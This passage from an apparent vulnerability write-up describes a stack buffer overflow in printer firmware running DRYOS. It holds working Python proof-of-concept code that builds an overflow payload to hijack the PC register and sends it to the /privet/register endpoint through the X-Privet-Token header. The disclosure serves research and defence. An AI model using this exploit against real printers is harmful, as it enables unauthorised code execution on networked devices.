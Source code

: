 As the firmware is lacking protections such as stack cookies, NX, and ASLR, exploiting the buffer overflow should be rather straightforward, despite the printer running [DRYOS](https://en.wikipedia.org/wiki/DRYOS) which differs from usual operating systems. Using the information gathered while researching the vulnerability, we built the following class to exploit the vulnerability and overwrite the `PC` register with an arbitrary address:

```python
import struct

class PrivetPayload:
    def __init__(self, ret_addr=0x1337):
        self.ret_addr = ret_addr

    @property
    def r4(self):
        return b"\x44\x44\x44\x44"

    @property
    def r5(self):
        return b"\x55\x55\x55\x55"

    @property
    def r6(self):
        return b"\x66\x66\x66\x66"

    @property
    def pc(self):
        return struct.pack("<I", self.ret_addr)

    def __bytes__(self):
        return (
            b":" * 0x160
            + struct.pack("<I", 0x20)  # pHashStrBufLen
            + self.r4
            + self.r5
            + self.r6
            + self.pc
        )
```

The vulnerability can then be triggered with the following code, assuming the printer's IP address is `192.168.1.100`:

```python
import base64
import http.client

payload = privet.PrivetPayload()
headers = {
    "Content-type": "application/json",
    "Accept": "text/plain",
    "X-Privet-Token": base64.b64encode(bytes(payload)),
}

conn = http.client.HTTPConnection("192.168.1.100", 80)
conn.request("POST", "/privet/register", "", headers)
```
